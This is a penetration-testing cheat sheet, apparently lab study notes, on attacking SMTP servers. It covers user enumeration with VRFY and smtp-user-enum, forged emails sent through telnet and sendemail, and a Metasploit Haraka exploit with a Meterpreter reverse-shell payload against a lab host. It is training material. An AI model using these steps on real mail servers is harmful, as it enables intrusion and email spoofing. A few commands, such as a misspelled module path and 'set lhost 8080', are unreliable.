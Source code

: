 # Table of Contents
1. Overview
	1. ports
2. Tools
	1. netcat
	2. telnet
	3. [smtp-user-enum](#smtp-user-enum)
	4. [sendmail](#sendmail)
	5. [msfconsole](#msfconsole)

---

# Overview
Simple Mail Transfer Protocol

Useful for [enumerating](#msfconsole) users that are on the system.

## Ports
25

---

# Tools
## netcat
Can use netcat to log into server manually
```bash
nc demo.ine.local 25
```

```bash
VRFY admin@openmailbox.xyz
```

## telnet
telnet can be used to check supported commands/capabilities
```bash
telnet demo.ine.local 25
HELO attacker.xyz
EHLO attacker.xyz
```

Can use telnet login to draft an email
```bash
telnet demo.ine.local 25
HELO attacker.xyz
mail from: admin@attacker.xyz
rcpt to:root@openmailbox.xyz
data
Subject: Hi Root
Hello,
This is a fake mail sent using telnet command.
From,
Admin
.
```

## smtp-user-enum

```bash
smtp-user-enum -U /usr/share/commix/src/txt/usernames.txt -t demo.ine.local
```

## sendmail

```bash
sendemail -f admin@attacker.xyz -t root@openmailbox.xyz -s demo.ine.local -u Fakemail -m "Hi root, a fake from admin" -o tls=no
```

## msfconsole

`use auxiliary/scanner/smto/smtp_enum`
- helps find users on the system
### Example
1. `db_nmap -sV -O demo.ine.local` : scan and import
2. `search type:exploit name:haraka` : search for service found
3. `use exploit/linux/smtp/haraka`
	1. `options` : view options to set
	2. `set SRVPORT 9898` : local listen port, changed because payload
	3. `set email_to root@attackdefense.test` : to yourself?
	4. `set payload linux/x64/meterpreter_reverse_http`
	5. `set lhost 8080` : set payload lhost